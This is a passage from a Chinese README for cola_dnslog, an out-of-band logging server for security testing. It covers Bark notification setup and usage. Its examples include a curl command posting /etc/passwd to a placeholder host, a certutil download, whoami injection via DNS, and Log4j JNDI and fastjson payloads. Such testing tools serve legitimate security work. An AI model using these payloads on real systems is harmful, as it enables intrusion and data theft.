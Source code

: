 [Finb/Bark: Bark is an iOS App which allows you to push custom notifications to your iPhone (github.com)](https://github.com/Finb/Bark)

[Finb/bark-server: Backend of Bark (github.com)](https://github.com/Finb/bark-server)

同上 进入webui，开启Bark开关，然后修改bark url，点击Update保存

![image-20220802015907678](https://github.com/AbelChe/cola_dnslog/raw/main/readme_resource/image-20220802015907678.png)

效果如下：

<img src="https://github.com/AbelChe/cola_dnslog/raw/main/readme_resource/image-20220802015642879.png" alt="image-20220802015642879" style="zoom: 25%;" />

### 如何使用

上文提到，假定我的域名和ip是`example.com`和`1.1.1.1`，并且我们账户的logid为`qrq`

#### DNS

```sh
nsloopup `whoami`.qrq.example.com
ping `whoami`.qrq.example.com
```

#### HTTP

```sh
curl 1.1.1.1/qrq/some/info
curl -d @/etc/passwd 1.1.1.1/qrq/postdata
certutil -urlcache -split -f http://1.1.1.1/x x
```

#### LDAP

log4j2 fastjson等可以使用此方法

注意这里必须要令最后路径的最后作为logid，如：`ldapqrq` `xxxxqrq` `qrq` `xxx/qrq`

```
${jndi:ldap://1.1.1.1:1389/ldapqrq}
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://1.1.1.1:1389/ldapqrq", "autoCommit":true}
```

#### RMI

同上，log4j2 fastjson等

```
${jndi:rmi://1.1.1.1:1099/rmiqrq}
{ "b":{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://1.1.1.1:1099/rmiqrq", "autoCommit":true } }
```

## 👀 概览

### 登录
